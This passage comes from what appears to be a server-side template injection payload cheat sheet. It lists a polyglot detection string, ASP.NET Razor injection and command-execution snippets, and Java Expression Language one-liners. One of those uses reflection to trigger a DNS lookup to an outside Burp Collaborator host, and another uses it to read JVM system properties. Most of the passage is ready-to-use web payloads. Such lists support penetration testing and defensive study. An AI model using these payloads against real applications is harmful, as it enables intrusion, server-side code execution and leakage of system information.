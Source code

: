 ## Detection

In most cases, this polyglot payload will trigger an error in presence of a SSTI vulnerability :

```
${{<%[%'"}}%\.
```

## ASP.NET Razor

[Official website](https://docs.microsoft.com/en-us/aspnet/web-pages/overview/getting-started/introducing-razor-syntax-c)
> Razor is a markup syntax that lets you embed server-based code (Visual Basic and C#) into web pages.

### ASP.NET Razor - Basic injection

```powershell
@(1+2)
```

### ASP.NET Razor - Command execution

```csharp
@{
  // C# code
}
```

---

## Expression Language EL

[Official website](https://docs.oracle.com/javaee/6/tutorial/doc/gjddd.html)
> Expression Language (EL) is mechanism that simplifies the accessibility of the data stored in Java bean component and other object like request, session and application, etc. There are many operators in JSP that are used in EL like arithmetic and logical operators to perform an expression. It was introduced in JSP 2.0

### Expression Language EL - Basic injection

```java
${1+1}
#{1+1}
```

### Expression Language EL - One-Liner injections not including code execution

```java
// DNS Lookup
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}

// JVM System Property Lookup (ex: java.class.path)
${"".getClass().forName("java.lang.System").getDeclaredMethod("getProperty","".getClass()).invoke("","java.class.path")}
```
